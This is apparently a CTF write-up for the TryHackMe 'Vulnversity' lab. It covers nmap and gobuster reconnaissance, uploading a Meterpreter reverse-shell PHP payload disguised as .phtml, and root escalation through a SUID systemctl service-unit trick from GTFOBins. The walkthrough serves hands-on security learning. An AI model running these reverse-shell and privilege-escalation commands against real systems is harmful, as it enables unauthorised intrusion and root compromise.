

<!-- TOC -->

- [Vulnversity](#vulnversity)
    - [Reconnaissance](#reconnaissance)
    - [Locating directories using GoBuster](#locating-directories-using-gobuster)
    - [Compromise the webserver](#compromise-the-webserver)
    - [Privilege Escalation](#privilege-escalation)

<!-- /TOC -->

# Vulnversity

[Vulnversity Room](https://tryhackme.com/room/vulnversity)

Learn about active recon, web app attacks and privilege escalation.

| Title | IP Address |
| :---- | :---- |
| VulnUniversity | 10.10.154.3 |

## Reconnaissance

```bash
nmap -sV 10.10.154.3
```

> ```
> . . .
> 21/tcp   open  ftp         vsftpd 3.0.3
> 22/tcp   open  ssh         OpenSSH 7.2p2 U***** 4u*****2.7 (U***** Linux; protocol 2.0)
> | ssh-hostkey: 
> |   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
> |   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
> |_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
> 139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
> 445/tcp  open  netbios-ssn Samba smbd 4.3.11-U***** (workgroup: WORKGROUP)
> 3128/tcp open  http-proxy  Squid http proxy 3.*.**
> |_http-server-header: squid/3.5.12
> |_http-title: ERROR: The requested URL could not be retrieved
> 3***/tcp open  http        Apache httpd 2.4.18 ((U*****))
> |_http-server-header: Apache/2.4.18 (U*****)
> |_http-title: Vuln University
> Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
> . . .
> ```

## Locating directories using GoBuster

```bash
gobuster dir -u http://10.10.154.3:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 100
```

```
/images               (Status: 301) [Size: 318] [--> http://10.10.154.3:3333/images/]                                 
/css                  (Status: 301) [Size: 315] [--> http://10.10.154.3:3333/css/]                                    
/js                   (Status: 301) [Size: 314] [--> http://10.10.154.3:3333/js/]                                     
/fonts                (Status: 301) [Size: 317] [--> http://10.10.154.3:3333/fonts/]                                  
/i*******             (Status: 301) [Size: 320] [--> http://10.10.154.3:3333/i*******/]
```

## Compromise the webserver



```bash
msfpc php 1*.*.**.** 80
msfconsole -q -r '/home/***/***/php-meterpreter-staged-reverse-tcp-80-php.rc'
mv php-meterpreter-staged-reverse-tcp-80.php php-meterpreter-staged-reverse-tcp-80.phtml
```

RHOST:

```bash
cd /home
cd b***
cat user.txt
```

> `'********************************`

## Privilege Escalation

Using [linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

> `-rwsr-xr-x 1 root root 645K Feb 13  2019 /bin/s********`

Using [GTFOBins](https://gtfobins.github.io/):

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TF
cat /tmp/output
```

> `a*******************************`
